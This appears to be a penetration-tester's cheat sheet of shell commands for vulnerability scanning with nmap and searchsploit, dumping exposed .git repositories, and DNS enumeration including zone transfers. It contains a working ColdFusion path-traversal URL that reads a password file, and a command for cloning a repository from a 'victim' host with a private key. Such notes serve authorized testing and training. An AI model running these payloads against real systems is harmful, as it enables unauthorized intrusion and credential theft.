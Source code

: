 ```shell
# fckeditor Version 8  LFI > http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

# Vulnerability Scanning using NSE
ls -1 /usr/share/nmap/scripts/<servic>* # scripts.db (for category check) https://nmap.org/nsedoc/scripts/
nmap --script-help http-headers

grep <category> /usr/share/nmap/scripts/scripts.db
nmap --script vulners # very bulky data for single serrvice
--script "vuln" # for vuln category
# we can download custom nse scripts, download and shift to nmap scripts folder then
sudo nmap --script-updatedb
sudo apt update && sudo apt install exploitdb # to update the local copy of Exploit Database archive
searchsploit --id httpd
searchsploit --id openssh 7.2p2
# some vulns to look for
nmap -sV --script http-shellshock



# Git commands
git log
git show

# [gittools](https://github.com/internetwache/GitTools)
gitfinder
git-dumper http://ip/.git/ destdir
gitextractor gitdir outdir

git log
git branch
git branch -a
git config list
git status
git restore --staged README.md # in order to restory file from staged
git diff previous_commit_hash new_commit_hash
git clone file:///filepath

# to clone repository inside our kali machine from the victim machine
GIT_SSH_COMMAND='ssh -i id_rsa -p 22' git clone git@victim_ip:/git-server

.git/logs/HEAD  # to research logs manually
```

### Service Enumeration

#### DNS 
```shell
# DNS Enumeration
host -t <recordtype> hostname.com # recordtype = mx, cname, a, txt
host -a hostname.com
hostname -t NS hostname.com
host -l domain.con dnsserver # to do zone transfer
nslookup hostname 8.8.8.8
dig @<serverip> hostname ANY 
dig axfr @namserver megacorpone.com # zone transfer

dnsrecon -d example.com -t std
dnsrecon -d example.com -D ~/wordlist.txt -t brt
dnsenum offseclab.io --threads 100
```
